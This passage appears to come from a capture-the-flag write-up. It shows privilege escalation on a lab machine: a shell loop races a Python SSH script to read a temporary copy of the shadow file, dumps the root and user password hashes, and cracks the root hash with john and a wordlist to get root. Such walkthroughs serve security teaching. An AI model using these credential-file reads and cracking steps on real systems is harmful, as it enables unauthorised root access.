 ```python
```
The script reads the shadow file, copies it to /tmp/SSH, checks the user submitted password and deletes the copy again.
The 0.1 second sleep gives enough time for a race-condition to read the shadow file.

#### Race-condition to root
Let us exploit the race-condition by endlessly trying to read the copy of the shadow file.
```console
robert@obscure:/tmp$ while true; do timeout 1 cat SSH/* 2>/dev/null; done
```

Let us run the SSH server in another terminal now.
```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: a
Enter password: a
Invalid user
```

Checking back to the race-condition exploit we get the hashes:
```console
robert@obscure:/tmp$ while true; do timeout 1 cat SSH/* 2>/dev/null; done
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7


robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```
Let us copy the hash into a file and crack it using john.

#### Cracking the root password
```console
root@silence:~# cat hash.txt
root:$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1

root@silence:~# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (root)
```
Now that we have the root password, let us su to root and read root.txt
```console
robert@obscure:~$ su
Password: mercedes
root@obscure:~# cat root.txt
512fd***************************
```